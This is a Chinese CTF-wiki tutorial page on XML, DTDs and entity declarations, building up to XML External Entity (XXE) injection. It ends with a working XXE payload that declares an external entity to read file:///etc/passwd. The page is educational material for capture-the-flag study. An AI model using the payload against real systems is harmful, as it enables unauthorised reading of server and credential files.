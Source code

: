 # XXE
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



## XML定义

XML:可扩展标记语言，标准通用标记语言的子集，是一种用于标记电子文件使其具有结构性的标记语言。它被设计用来传输和存储数据(而不是储存数据),可扩展标记语言是一种很像超文本标记语言的标记语言。它的设计宗旨是传输数据，而不是显示数据。它的标签没有被预定义。您需要自行定义标签。它被设计为具有自我描述性。它是W3C的推荐标准。

可扩展标记语言(XML)和超文本标记语言(HTML)为不同的目的而设计

它被设计用来传输和存储数据，其焦点是数据的内容。

超文本标记语言被设计用来显示数据，其焦点是数据的外观

XML由3个部分构成，它们分别是：文档类型定义（Document Type Definition，DTD），即XML的布局语言；可扩展的样式语言（Extensible Style Language，XSL），即XML的样式表语言；以及可扩展链接语言（Extensible Link Language，XLL）。

## Xml格式

```
<?xml version="1.0" encoding="UTF-8"?>

<!-- ⬆XML声明⬆ -->

<!DOCTYPE  文件名 [

<!ENTITY实体名 "实体内容">

]>

<!-- ⬆文档类型定义(DTD)⬆ -->

<元素名称 category="属性">

文本或其他元素

</元素名称>

<!-- ⬆文档元素⬆ -->
```

![img](Untitled.assets/1049983-20180712233951266-1391283970.gif)

1，元素
 元素是 XML 以及 HTML 文档的主要构建模块，元素可包含文本、其他元素或者是空的。
 实例:

```
<body>body text in between</body>
<message>some message in between</message>12
```

空的 HTML 元素的例子是 "hr"、"br" 以及 "img"。

2，属性
 属性可提供有关元素的额外信息
 实例：

```
<img src="computer.gif" />1
```

3，实体
 实体是用来定义普通文本的变量。实体引用是对实体的引用。

4，PCDATA
 PCDATA 的意思是被解析的字符数据（parsed character data）。
 PCDATA 是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。

5，CDATA
 CDATA 的意思是字符数据（character data）。
 CDATA 是不会被解析器解析的文本。

## DTD(文档类型定义)

DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。

DTD 可以在 XML 文档内声明，也可以外部引用。

1，内部声明：<!DOCTYPE 根元素 [元素声明]> ex: `<!DOCTYOE test any>`
 完整实例：

```
<?xml version="1.0"?>
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to      (#PCDATA)>
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
]>
<note>
  <to>George</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting!</body>
</note>1234567891011121314
```

2，外部声明（引用外部DTD）：<!DOCTYPE 根元素 SYSTEM "文件名"> ex:`<!DOCTYPE test SYSTEM 'http://www.test.com/evil.dtd'>`
 完整实例:

```
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note> 12345678
```

而note.dtd的内容为:

```
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>12345
```

### DTD实体

DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。
 ***
 实体又分为一般实体和参数实体
 1，一般实体的声明语法:<!ENTITY 实体名 "实体内容“>
 引用实体的方式：&实体名；
 2，参数实体只能在DTD中使用，参数实体的声明格式： <!ENTITY % 实体名 "实体内容“>
 引用实体的方式：%实体名；
\*** 

1，内部实体声明:<!ENTITY 实体名称 "实体的值"> ex:`<!ENTITY eviltest "eviltest">`
 完整实例:

```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY writer "Bill Gates">
<!ENTITY copyright "Copyright W3School.com.cn">
]>
123456
```

<test>&writer;&copyright;</test>

**2，外部实体声明:<!ENTITY 实体名称 SYSTEM "URI">**
 完整实例:

```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&writer;&copyright;</author>
```

## xxe

![img](Untitled.assets/1205477-20170729140431597-914383211.png)

![img](Untitled.assets/1205477-20170729140617472-1523498833.png)

![img](Untitled.assets/1205477-20170729141950472-1045381626.png)

![img](Untitled.assets/1205477-20170729142002394-1678808572.png)



```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE nsfocus-sec [  
<!ELEMENT methodname ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
```

（这里比较好玩的是Typora甚至会解析<?xml version="1.0" encoding="utf-8"?>）
